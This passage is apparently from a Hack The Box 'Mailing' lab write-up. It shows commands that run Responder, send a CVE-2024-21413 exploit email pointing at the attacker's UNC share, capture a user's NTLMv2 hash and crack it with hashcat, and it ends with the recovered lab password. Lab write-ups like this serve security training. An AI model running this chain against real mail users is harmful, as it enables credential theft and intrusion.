 > Following the step
> Launch Responder 

```
Responder -I tun0 -v 
```

> Download and launch the payload 

```
python CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.com --recipient maya@mailing.com --url '\\10.10.14.122\test' --subject 'HEYHEY'
```

![](./IMG/37.png)

> Receive maya's NTLMv2 hashes

![](./IMG/36.png)

> Hashcat crack NTLMv2 

```
ashcat -m 5600 maya /usr/share/wordlists/rockyou.txt
```

> Get plaintext credential 
```
maya / m4y4ngs4ri
```
